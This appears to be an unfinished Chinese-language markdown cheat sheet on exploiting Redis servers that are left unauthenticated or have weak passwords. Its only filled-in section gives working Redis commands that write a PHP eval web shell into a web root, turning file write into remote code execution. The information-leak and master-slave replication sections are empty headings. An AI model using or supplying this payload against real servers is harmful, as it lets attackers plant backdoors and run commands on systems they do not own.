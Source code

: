 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

### 2. 写任意文件->RCE

```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  保存
```
### 3. 远程命令执行

#### 主从同步RCE


## Ref
- https://www.freebuf.com/column/237263.html
